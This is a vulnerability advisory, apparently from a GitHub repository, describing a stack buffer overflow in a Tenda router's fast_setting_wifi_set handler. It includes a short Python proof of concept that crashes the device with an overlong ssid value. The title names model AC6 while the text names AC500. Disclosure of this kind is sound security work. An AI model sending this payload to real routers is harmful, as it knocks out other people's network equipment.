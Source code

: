 # Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V2.0.1.9(1307)](https://www.tenda.com.cn/download/detail-2470.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/205_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
